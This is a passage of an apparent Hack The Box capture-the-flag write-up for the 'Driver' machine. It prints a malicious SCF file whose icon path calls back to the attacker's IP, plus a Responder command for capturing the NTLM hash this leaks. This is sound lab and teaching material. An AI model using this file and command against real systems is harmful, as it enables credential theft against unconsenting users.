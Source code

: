It's possible to upload our own files on this page. So we are looking at a way of executing a payload, and after a bit of searching I found [this](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks) great article on Pentestlab. Following it we can create an scf file which will cause the server to try and contact our attacking machine, where we have Responder listening to capture the hash of the account being used.

First create our malicious scf file:

```text
┌──(root💀kali)-[~/htb/driver]
└─# cat @pencer.scf      
[Shell]
Command=2
IconFile=\\10.10.14.192\share\pencer.ico
[Taskbar]
Command=ToggleDesktop
```

Here I have my Kali IP on tun0, the icon and share don't exist they are just needed for this to work.

Now upload the file:

![drive-upload-scf](/assets/images/2021-10-27-17-45-39.png)

## Responder

Make sure you have Responder listening:

```sh
┌──(root💀kali)-[~/htb/driver]
└─# responder -wrf --lm -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
```